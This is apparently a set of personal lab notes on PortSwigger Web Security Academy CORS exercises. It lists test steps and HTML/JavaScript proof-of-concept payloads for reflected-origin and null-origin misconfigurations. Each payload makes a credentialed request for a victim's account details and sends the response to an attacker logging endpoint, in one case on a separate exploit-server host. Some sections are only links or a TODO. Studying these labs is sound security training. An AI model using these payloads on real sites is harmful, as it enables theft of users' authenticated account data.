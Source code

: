 ### Server-generated ACAO header from client-specified Origin header
#### Test
- Observe that the origin is reflected in the Access-Control-Allow-Origin header. 
#### POC
```html
<script>
var req = new XMLHttpRequest;
req.onload = reqListener;
req.open('get','https://ac131f9e1f2ffb79807d38fa00110007.web-security-academy.net/accountDetails');
req.withCredentials = true;
req.send();

function reqListener(){
    location = "/log?key=" + this.responseText;
}
</script>
```

***

### Whitelisted null origin value
#### Test
-   Send the request to Burp Repeater, and resubmit it with the added header `Origin: null`
-   Observe that the "null" origin is reflected in the `Access-Control-Allow-Origin` header.
#### POC
```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html, <script>
   var req = new XMLHttpRequest ();
   req.onload = reqListener;
   req.open('get','https://ac4e1fba1fe3b48280393d1700d700b8.web-security-academy.net/accountDetails',true);
   req.withCredentials = true;
   req.send();

   function reqListener() {
       location='https://acb11ff01f81b44780bd3ddc012a00a3.web-security-academy.net/log?key='+encodeURIComponent(this.responseText);
   };
</script>"></iframe> 
```

***

### [Exploiting XSS](https://portswigger.net/web-security/cross-site-scripting/exploiting) via CORS trust relationships

***

### [Breaking TLS with poorly configured CORS](https://portswigger.net/web-security/cors)

***

### CORS vulnerability with trusted insecure protocols
#### TODO


***
### 

	
